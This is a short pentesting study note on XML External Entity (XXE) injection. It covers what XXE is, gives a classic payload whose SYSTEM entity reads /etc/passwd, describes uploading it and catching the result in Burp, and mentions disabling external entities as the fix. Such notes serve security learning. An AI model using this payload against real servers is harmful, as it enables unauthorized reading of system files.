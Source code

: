 # XML External Entities (XXE)

## What is XXE?

1. <mark style="color:yellow;">Attacking systems that parse XML input</mark>
2. Abuse SYSTEM entity and get malicious
3. <mark style="color:yellow;">Attacks include DoS, LFI, RCE, and more</mark>

Can you place malicious XML files onto a server and get the web application to parse the XML and trigger the attack?

### Test XML File for XXE Testing

Classic XXE:

{% code overflow="wrap" %}
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
{% endcode %}

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE gift [
    <!ENTITY from "hacker">
]>

<gift>
    <To>Frank</To>
    <From>&from;</From>
    <Item>Baseball Cards</Items>

</gift>
```

### XXE Payloads (PayloadsAllTheThings)

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#billion-laugh-attack" %}

## XXE Attack and Defense

* You should attempt to identify file upload possibilities
* Once you identify a file upload, upload it to the web app and intercept the request with Burp
* If the XML is parsed, it will trigger the malicious code and return the results blindly (hence why you need Burp)

Response intercepted from Burp:

* you can see that we see the results of /etc/passwd

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

## Remediation

* If you disable external entities
* Once you do this, you will be able to mitigate this vulnerability
